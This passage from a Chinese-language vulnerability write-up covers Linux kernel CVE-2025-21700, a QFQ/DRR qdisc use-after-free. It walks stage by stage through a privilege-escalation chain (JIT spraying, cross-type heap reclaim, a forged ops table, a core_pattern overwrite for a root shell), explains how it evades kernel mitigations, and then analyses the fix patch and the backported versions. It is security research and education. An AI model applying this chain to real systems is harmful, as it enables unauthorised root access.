

### 4-3. 阶段 1：JIT 映像准备

阶段 1 准备 JIT 映像。主进程构造单页大小的 eBPF 程序，内核将其编译为 JIT 映像。大量映像被批量挂载至套接字，覆盖模块区的随机偏移范围，使预测载荷地址始终落在某一映像内部。完成喷射后，主进程计算出预测载荷地址，该地址在后续阶段被写入伪造的操作表。由于 JIT 映像在 fork 之前准备，工作进程通过写时复制继承该地址。



### 4-4. 阶段 2：QFQ 树构建

阶段 2 构建 QFQ 树。主进程在回环接口上创建 QFQ 根 qdisc，依次添加多个类。每个新建类在创建时都会获得一个默认子 qdisc。随后，显式子 qdisc 被挂载到部分类下，替换其默认子 qdisc。QFQ 树的拓扑为后续的跨父类替换提供了基础。

树形结构随步骤变化如下：

**步骤 1：创建 QFQ 根 qdisc**

```
QFQ(1:)
```

**步骤 2：添加基础类**

```
QFQ(1:)
 ├── class(1:1) ──► 默认子 qdisc
 ├── class(1:2) ──► 默认子 qdisc
 ├── class(1:3) ──► 默认子 qdisc
 └── class(1:128) ──► 默认子 qdisc
```

**步骤 3–4：挂载内层 DRR qdisc 与 PLUG qdisc**

```
QFQ(1:)
 ├── class(1:1)
 │    └── DRR(11:)
 ├── class(1:2) ──► 默认子 qdisc
 ├── class(1:3)
 │    └── PLUG(13:)
 └── class(1:128)
      └── PLUG(128:)
```

**步骤 5–7：添加内层类与 FIFO qdisc**

```
QFQ(1:)
 ├── class(1:1)
 │    └── DRR(11:)
 │         └── class(11:11)
 │              └── FIFO(777:)        parent = 11:11
 ├── class(1:2) ──► 默认子 qdisc
 ├── class(1:3) ──► PLUG(13:)
 └── class(1:128) ──► PLUG(128:)
```



### 4-5. 阶段 3：跨父类替换与失效

阶段 3 执行跨父类替换。主进程发起替换请求，将目标 qdisc 从原父类移动到新父类下。替换路径交换目标类的子 qdisc 指针，并释放其原有默认子 qdisc，但父节点字段未同步更新。随后删除原父类，使旧父节点标识不再可解析，目标 qdisc 的父节点记录成为陈旧值。此时，目标 qdisc 实际挂在新父类下，但 `parent` 字段仍指向旧父类。

**替换后的树形结构**

```
QFQ(1:)
 ├── class(1:1)
 │    └── DRR(11:)
 │         └── class(11:11)          无子 qdisc
 ├── class(1:2)
 │    └── FIFO(777:)                 parent = 11:11 (陈旧)
 ├── class(1:3) ──► PLUG(13:)
 └── class(1:128) ──► PLUG(128:)
```

**删除原父类后**

```
QFQ(1:)
 ├── class(1:2)
 │    └── FIFO(777:)                 parent = 11:11 (不可解析)
 ├── class(1:3) ──► PLUG(13:)
 └── class(1:128) ──► PLUG(128:)
```


### 4-6. 阶段 4：激活与释放

阶段 4 激活活动列表并释放目标类。主进程依次向辅助类、目标类与填充类发送数据包，使它们进入活动列表。随后删除辅助类，使目标类成为活动列表头部。接着删除目标类。删除路径清理目标 qdisc 的队列并尝试向上通知，但由于父节点记录陈旧，反向查找失败，通知被跳过。类对象与目标 qdisc 被释放，而活动列表仍持有已释放条目的引用。

**删除目标类之前的树形结构**

```
QFQ(1:)
 ├── class(1:2)
 │    └── FIFO(777:)                 parent = 11:11 (不可解析)
 ├── class(1:3) ──► PLUG(13:)
 └── class(1:128) ──► PLUG(128:)

活动列表： class(1:3) -> class(1:2) -> class(1:128)
```

**删除目标类之后**

```
QFQ(1:)
 ├── class(1:3) ──► PLUG(13:)
 └── class(1:128) ──► PLUG(128:)

活动列表： class(1:3) -> [悬空 class(1:2) 条目] -> class(1:128)
悬空对象： class(1:2) 与 FIFO(777:) 已释放
```



### 4-7. 阶段 5：槽位回收与伪造

阶段 5 由工作进程执行。工作进程回收被释放的类槽位，并通过跨类型对象布局的重叠构造伪造操作表。其核心在于：两种不同类型的类对象通过同一调用点分配，因而落在同一缓存子集中，即使启用随机化缓存隔离也不受影响。工作进程将一种类型的对象喷洒至被释放槽位，利用两种结构在特定字段上的偏移重叠，使伪造操作表指针落在可控字段中。

**槽位回收后的内核堆状态**

```
kmalloc-128 缓存
│
├── 其他内核对象
│
├── 已释放的类槽位（被回收对象覆盖）
│   │
│   ├── 字段 A    指向相邻对象的特定字段
│   ├── 字段 B    被驱动为伪造操作表地址
│   └── ...
│
└── 其他内核对象
```

工作进程进一步驱动相邻对象的字段，使其组合成一个 64 位窗口，该窗口最终被解释为指向伪造操作表的指针。伪造操作表被放置在内核中一处可预测的区域，其 `peek` 成员被设置为 JIT 载荷地址。



### 4-8. 阶段 6：控制流转移

阶段 6 触发控制流转移。主进程绑定至另一 CPU，向填充类发送数据包，触发 QFQ 调度器遍历活动列表。调度器从活动列表头部开始，依次读取条目。当读取到已释放的类条目时，调度器将其视为一种类型，并按照该类型的字段布局解释其内容。由于字段重叠，调度器解析出的 `qdisc` 指针指向伪造操作表，`ops->peek` 即为 JIT 载荷地址。控制流由此进入 JIT 载荷。

**遍历过程中的活动列表变化**

```
初始状态： [辅助类] -> [悬空目标类] -> [填充类]
第一次迭代：读取辅助类，旋转至尾部
           [悬空目标类] -> [填充类] -> [辅助类]
第二次迭代：读取悬空目标类，触发 peek 调用
```



### 4-9. 阶段 7：权限提升与收尾

阶段 7 完成权限提升与收尾。JIT 载荷覆写 `core_pattern`，将其改为以 root 权限重新执行指定程序的格式。观察子进程持续轮询 `core_pattern`，一旦检测到其内容变化，便触发一次 core dump。内核按照新的 `core_pattern` 以 root 权限重新执行指定程序，主进程随后获得 root shell。



### 4-10. 保护机制应对策略

本思路与思路一共享大部分保护机制应对策略，但在缓存随机化方面有额外考虑。

1. **KASLR**：通过批量喷射 JIT 映像覆盖模块区随机偏移范围，使预测载荷地址始终落在某一映像内部。
2. **SMEP**：控制流转移发生在内核态内部，`peek` 指向模块区中的 JIT 映像，并非用户态代码。
3. **SMAP**：伪造操作表位于内核可预测区域，内核侧访问的是内核虚拟地址。
4. **KPTI**：全程通过合法系统调用完成，不依赖用户态直接访问内核虚拟地址空间。
5. **CONFIG_MEMCG / CONFIG_MEMCG_KMEM**：不影响 slab 层面的堆布局操作。
6. **CONFIG_SLAB_FREELIST_RANDOM**：通过批量喷洒与多候选覆盖，不依赖对空闲链表顺序的精确预测。
7. **CONFIG_SLAB_FREELIST_HARDENED**：目标对象仅被释放一次，不构成双重释放。
8. **CONFIG_INIT_ON_ALLOC_DEFAULT_ON**：回收对象的内容由操作者显式填充，不依赖残留数据。
9. **CONFIG_HARDENED_USERCOPY**：伪造操作表位于内核区域，由内核直接访问。
10. **CONFIG_RANDOM_KMALLOC_CACHES**：该配置为每个调用点随机化 kmalloc 缓存。本思路中，两种不同类型的类对象通过同一调用点分配，其每次调用的哈希值相同，因而落在同一缓存子集中。跨类型回收因此仍然可行，伪造操作表的构造不受该配置影响。

整体而言，本思路通过跨类型对象回收、字段重叠构造伪造操作表，以及 JIT 载荷执行，有效规避了上述保护机制，并在启用缓存随机化的情况下仍能保持稳定。

### 4-11. 前提条件与局限性

**前提条件**

1. 目标内核启用了 `CONFIG_NET_SCHED`、`CONFIG_NET_SCH_QFQ`、`CONFIG_NET_SCH_DRR`、`CONFIG_NET_SCH_FIFO`、`CONFIG_NET_SCH_PLUG` 等流量控制相关配置。
2. 目标内核启用了非特权用户命名空间与网络命名空间。
3. 目标内核的 SLUB 分配器行为与方案假设一致。
4. 方案依赖双进程协作与精确的时序控制。

**局限性**

1. 方案依赖于精确的时序控制与内存布局，在负载较高或中断频繁的环境中可能降低成功率。
2. 方案对内核版本有一定要求，不同版本的结构体偏移可能不同。
3. 方案需要至少两个 CPU 核心，以分离主进程与工作进程的执行。

### 4-12. 章节总结

思路二与思路一在最终目标上一致，均将控制流引导至 JIT 载荷并完成权限提升，但二者在实现路径上有本质区别。思路一依赖对单一类型对象布局的精确预测，而思路二转而利用 QFQ 调度器中两种类对象通过同一调用点分配这一事实。这一事实使得即便 `CONFIG_RANDOM_KMALLOC_CACHES` 已启用，两种对象仍会落在同一缓存子集中，跨类型回收因此仍然可行。

从链条推进的角度看，思路二的关键环节有三。其一是双进程协作：主进程负责构建 QFQ 树、触发释放并最终触发调度器遍历，工作进程负责回收释放槽位并构造伪造操作表。两个进程通过共享内存同步，使“释放”与“回收”两个步骤得以在同一 CPU 上先后完成，同时避免工作进程的持续循环阻塞主进程的收尾处理。其二是字段重叠的利用：两种类对象在特定偏移上的字段恰好可以组合成一个 64 位窗口，该窗口被调度器解释为指向伪造操作表的指针。工作进程通过分阶段驱动相邻对象的字段，将该窗口精确地设置为目标地址。其三是伪造操作表的放置：工作进程将伪造操作表写入内核中一处可预测的区域，并将其 `peek` 成员指向 JIT 载荷地址。

与思路一相比，思路二的适用范围更广，代价是结构更复杂。思路一受限于 `CONFIG_RANDOM_KMALLOC_CACHES` 未启用的前提，而思路二通过同一调用点分配的特性绕过了这一限制。但思路二需要至少两个 CPU 核心以分离主进程与工作进程的执行，且对时序控制的要求更高。两种思路各有所长，具体采用哪一种，取决于目标内核的配置与可用资源。

### 4-13. 测试结果二

<div style="text-align: center; margin: 2rem 0;">
  
</div>

## 5. 漏洞修复

### 5-1. 修复补丁概述

**CVE-2025-21700** 的修复由 Jamal Hadi Salim 与 Lion Ackermann 联合完成。补丁由 Jamal Hadi Salim 于 2025 年 1 月 15 日撰写并提交，经 Jakub Kicinski 评审后，于 2025 年 1 月 18 日合入主线内核。修复commit为 `bc50835e83f60f56e9bec2b392fb5544f250fb6f`，标题为“net: sched: Disallow replacing of child qdisc from one parent to another”。

补丁针对 `tc_modify_qdisc()` 的 `NLM_F_REPLACE` 路径，在 `qdisc_lookup()` 找到目标 qdisc 之后、进入 graft 路径之前，增加一次父节点归属校验：若目标 qdisc 的 `parent` 字段与请求中指定的父节点不一致，则直接返回 `-EINVAL`，拒绝该配置。

补丁采取的是预防性策略。提交信息中说明：“The semantics of ‘replace’ is for a del/add _on the same node_ and not a delete from one node(3:1) and add to another node (1:3) as in step10. While we could ‘fix’ with a more complex approach there could be consequences to expectations so the patch takes the preventive approach of ‘disallow such config’.”

### 5-2. 补丁的技术分析

补丁的完整 diff 如下：

```diff
diff --git a/net/sched/sch_api.c b/net/sched/sch_api.c
index 300430b8c4d22..fac9c946a4c75 100644
--- a/net/sched/sch_api.c
+++ b/net/sched/sch_api.c
@@ -1664,6 +1664,10 @@ replay:
 				q = qdisc_lookup(dev, tcm->tcm_handle);
 				if (!q)
 					goto create_n_graft;
+				if (q->parent != tcm->tcm_parent) {
+					NL_SET_ERR_MSG(extack, "Cannot move an existing qdisc to a different parent");
+					return -EINVAL;
+				}
 				if (n->nlmsg_flags & NLM_F_EXCL) {
 					NL_SET_ERR_MSG(extack, "Exclusivity flag on, cannot override");
 					return -EEXIST;
```

该 diff 位于 `net/sched/sch_api.c` 的 `tc_modify_qdisc()` 函数中。在 `NLM_F_REPLACE` 路径里，内核先通过 `qdisc_lookup(dev, tcm->tcm_handle)` 按 handle 找到被替换的 qdisc `q`。若 `q` 不存在，则跳转到 `create_n_graft` 创建新 qdisc；若存在，则继续执行后续校验。补丁在 `qdisc_lookup()` 之后、`NLM_F_EXCL` 检查之前插入了一段判断：

```c
if (q->parent != tcm->tcm_parent) {
    NL_SET_ERR_MSG(extack, "Cannot move an existing qdisc to a different parent");
    return -EINVAL;
}
```

该判断比较 `q->parent` 与请求中的 `tcm->tcm_parent`。若二者不一致，说明被替换的 qdisc 原本挂在另一个父节点下，当前请求试图将其移动到新的父节点。补丁认为这种配置不符合 replace 的语义，因此设置错误信息并返回 `-EINVAL`。错误信息为“Cannot move an existing qdisc to a different parent”，直接点明了被拒绝的操作类型。

在补丁之前，`tc_modify_qdisc()` 仅以 `check_loop()` 检测父子循环，不校验 `q->parent` 是否等于 `tcm->tcm_parent`。因此，`FIFO(777:)` 可以从 `fifo_A(11:11)` 被替换到 `fifo_B(1:2)` 下，而 `qdisc_replace()` 只交换目标类的 `qdisc` 字段并释放旧 qdisc，不更新 `FIFO(777:)->parent`。补丁插入的校验阻断了这一路径：只要 `q->parent` 与目标父节点不一致，替换请求在进入 graft 路径之前就被拒绝。

### 5-3. 漏洞利用链的切断

修复补丁位于漏洞链条的起点。在补丁之前，链条的推进顺序为：跨父类替换 → `parent` 字段未更新 → 旧父类被删除后 `parent` 成为陈旧值 → `qdisc_tree_reduce_backlog()` 反向查找失败 → `drr_qlen_notify()` 未被调用 → 活动列表条目未移除 → `drr_class` 与 `Qdisc` 被释放而活动列表仍持有引用 → 出队遍历解引用悬空对象。

补丁在第一步阻断了链条。当操作者尝试将 `FIFO(777:)` 从 `fifo_A(11:11)` 替换到 `fifo_B(1:2)` 时，`tc_modify_qdisc()` 会发现 `FIFO(777:)->parent` 为 `11:11`，而请求中的 `tcm->tcm_parent` 为 `1:2`，二者不一致，随即返回 `-EINVAL`。替换操作被拒绝，`FIFO(777:)` 仍留在 `fifo_A(11:11)` 下，其 `parent` 字段与实际的挂载位置保持一致。后续的删除、通知与释放流程均不会遇到 `parent` 陈旧化的问题，`drr_qlen_notify()` 会在适当时机被调用，活动列表中的条目会被正常移除，悬空 `drr_class` 与悬空 `Qdisc` 不会形成。出队遍历时，`drr_dequeue()` 访问的均为有效对象，释放后重用窗口不会出现。

提交信息中的复现脚本 step 10 正是补丁所拒绝的配置，补丁在该步骤返回错误，后续 step 11 至 step 14 均无法执行。

### 5-4. 补丁的演进意义

该补丁在策略上选择了预防性拒绝，而非事后修复。提交信息中给出了明确理由：replace 的语义是在同一节点上执行 del/add，而不是从一个节点删除并添加到另一个节点。若尝试以更复杂的方式修复，例如在 graft 路径中同步更新 `parent` 字段或调整引用计数，虽然可以消除当前的状态不一致，但会改变 replace 操作在既有用户空间工具与脚本中的可观察行为，进而可能对依赖当前语义的配置产生影响。

直接禁止跨父类替换，既契合“replace 应限定于同一节点”的设计意图，又将变更范围收敛到校验逻辑本身，避免引入新的语义分支。

### 5-5. 修复版本与回溯状态

修复commit `bc50835e83f6` 已纳入主线内核 v6.14-rc1。此后，该补丁被回溯至多个稳定分支。根据修复commit中披露的 CPE 配置，各分支的修复版本如下：

- `>= 2.6.12-rc2` 至 `< 5.4.291`，修复版本为 5.4.291
- `>= 5.5` 至 `< 5.10.235`，修复版本为 5.10.235
- `>= 5.11` 至 `< 5.15.179`，修复版本为 5.15.179
- `>= 5.16` 至 `< 6.1.129`，修复版本为 6.1.129
- `>= 6.2` 至 `< 6.6.76`，修复版本为 6.6.76
- `>= 6.7` 至 `< 6.12.13`，修复版本为 6.12.13
- `>= 6.13` 至 `< 6.13.2`，修复版本为 6.13.2

### 5-6. 修复的技术要点

补丁的技术要点可归纳为以下几点：

**校验位置。** 补丁在 `tc_modify_qdisc()` 的 `NLM_F_REPLACE` 路径中，于 `qdisc_lookup()` 找到目标 qdisc 之后、`NLM_F_EXCL` 检查之前插入校验。该位置位于 graft 路径之前，跨父类替换请求在进入 `qdisc_graft()` 之前即被拒绝。

**校验内容。** 补丁比较 `q->parent` 与 `tcm->tcm_parent`。`q->parent` 是目标 qdisc 当前的父节点 ID，`tcm->tcm_parent` 是请求中指定的目标父节点 ID。二者不一致时，说明该请求试图将 qdisc 移动到不同的父节点下，补丁据此拒绝。

**错误返回。** 补丁返回 `-EINVAL`，并通过 `NL_SET_ERR_MSG()` 设置错误信息“Cannot move an existing qdisc to a different parent”。该错误信息描述了被拒绝的操作类型，便于用户空间工具识别与处理。

**预防性策略。** 补丁不修改 `parent` 字段，也不调整引用计数，而是直接禁止非法配置。提交信息中说明这一选择是为了避免修改内部状态可能引入的兼容性风险。

## 6. 免责声明

本文档旨在提供 **CVE-2025-21700** 漏洞的技术分析与教育性内容，仅供学习、研究和安全防御目的使用。作者与发布平台对以下事项声明如下：

1. **合法使用原则**：本文档中描述的任何技术细节、代码示例或利用方法仅供教育研究之用。读者不得将这些信息用于任何非法、未经授权或恶意的活动，包括但不限于未经授权的系统入侵、数据破坏、服务干扰或其他违反法律法规的行为。

2. **知识共享与责任**：本文档基于公开可获取的信息、官方漏洞公告和学术研究资料编写。作者力求确保技术内容的准确性，但不对信息的完整性、时效性或适用性作任何明示或暗示的保证。读者应自行验证信息的准确性，并在专业环境中谨慎应用。

3. **环境限制**：所有技术分析和实验应在受控的、隔离的测试环境中进行，例如使用特制的虚拟机或专用硬件。禁止在任何生产环境、公共网络或他人系统中尝试漏洞利用或相关技术。

4. **法律合规性**：读者应遵守所在国家或地区的所有适用法律法规，包括但不限于计算机安全法、数据保护法和知识产权法。任何使用本文档内容的行为所产生的法律后果，由行为者自行承担。

5. **技术中立性**：本文档对漏洞的分析保持技术中立立场，旨在促进安全社区的防御能力提升。文中提及的任何工具、技术或方法不应被视为对任何组织、产品或技术的背书或批判。

6. **更新与修正**：技术领域发展迅速，本文档内容可能随时间而过时。作者保留更新、修正或撤回文档内容的权利，不承诺另行通知。

7. **版权声明**：本文档内容受版权法保护，未经明确书面许可，不得用于商业目的。允许在注明出处的前提下进行非商业性的分享与引用。

**重要提示**：安全研究应始终遵循道德准则，以提升整体网络安全为目标。如发现安全漏洞，建议通过负责任的披露流程向相关厂商或机构报告，共同维护数字生态的安全与稳定。

---

_本文档的撰写参考了公开的漏洞公告、内核源码（Linux 6.12.12）及相关技术分析文献。所有实验均在封闭的测试环境中完成，未对任何实际系统造成影响。_

## 参考

- https://github.com/BinRacer/pwn4cve/tree/master/src/CVE-2025-21700
- https://github.com/BinRacer/pwn4cve/tree/master/src/CVE-2025-21700_V2
- https://github.com/google/security-research/tree/master/pocs/linux/kernelctf/CVE-2025-21700_lts_cos_mitigation
- https://www.cve.org/CVERecord?id=CVE-2025-21700
- https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=1da177e4c3f41524e886b7f1b8a0c1fc7321cac2
- https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=bc50835e83f60f56e9bec2b392fb5544f250fb6f
- https://nvd.nist.gov/vuln/detail/CVE-2025-21700
- https://ubuntu.com/security/CVE-2025-21700
